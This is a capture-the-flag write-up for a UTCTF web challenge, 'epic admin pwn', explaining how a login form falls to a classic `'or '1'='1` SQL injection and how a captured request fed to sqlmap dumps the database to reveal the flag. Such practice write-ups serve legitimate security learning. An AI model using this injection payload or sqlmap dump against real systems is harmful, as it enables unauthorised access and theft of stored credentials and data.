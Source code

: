 # [cd ../](../../index.md)
# epic admin pwn
> this challenge is epic i promise  
> the flag is the password  
> by matt  
> PTS: 50

## Link
[link](http://web2.utctf.live:5006/)

# Start
![web](web.png)  

## Getting the sqli

Try some basic sqli!

USERNAME | PASSWORD
:---: | :---:
`admin` | `'or '1' ='1`

Will work!  
![web_sqli](web_sqli.png)  
So we have an sqli on the `pass` parameter!!

## Getting the flag

Open burp and send `asd:asd`  
![burp](burp.png)  

- Right click and `Copy to file`  
  Save the file as `login.req`

```
sqlmap.py -r login.req -p pass --dump
```
![sqlmap](sqlmap.png)

# Got the flag
```
utflag{dual1pa1sp3rf3ct}
```

